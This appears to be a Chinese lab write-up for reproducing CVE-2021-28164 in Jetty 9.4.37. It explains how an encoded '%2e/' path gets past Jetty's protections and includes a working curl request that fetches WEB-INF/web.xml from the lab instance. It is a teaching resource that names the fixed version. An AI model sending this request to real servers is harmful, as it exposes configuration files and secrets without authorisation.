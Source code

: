 # Jetty WEB-INF 敏感信息泄露漏洞（CVE-2021-28164）

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 漏洞环境

执行如下命令启动一个Jetty 9.4.37：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![](1.png)

使用`%2e/`来绕过限制下载web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
